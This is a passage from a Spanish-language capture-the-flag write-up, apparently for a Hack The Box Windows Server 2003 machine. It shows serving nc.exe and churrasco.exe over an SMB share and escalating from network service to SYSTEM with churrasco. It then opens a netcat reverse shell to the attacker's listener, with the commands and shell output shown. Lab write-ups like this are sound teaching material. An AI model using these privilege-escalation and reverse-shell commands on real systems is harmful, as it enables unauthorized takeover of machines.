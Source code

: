 ```shell
> cp /usr/share/SecLists/Web-Shells/FuzzDB/nc.exe .
> smbserver.py smbFolder $(pwd)
```

* Copiamos el **churrasco.exe** en el directorio `C:\Windows\Temp\<carpeta>\churrasco.exe`

```shell
\> copy \\<tu-ip>\smbFolder\churrasco.exe churrasco.exe 
        1 file(s) copied.
\> whoami
nt authority\network service
\> .\churrasco.exe -d cmd "whoami"
nt authority\system
\> .\churrasco.exe "\\<tu-ip>\smbFolder\nc.exe -e cmd <tu-ip> <otro-puerto>"
# Si no llega la reverse shell matamos esta shell
```

* Y recibimos la reverse shell como usuario **administrador**

```shell
> rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.14] 1040
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

\> whoami
nt authority\system
```
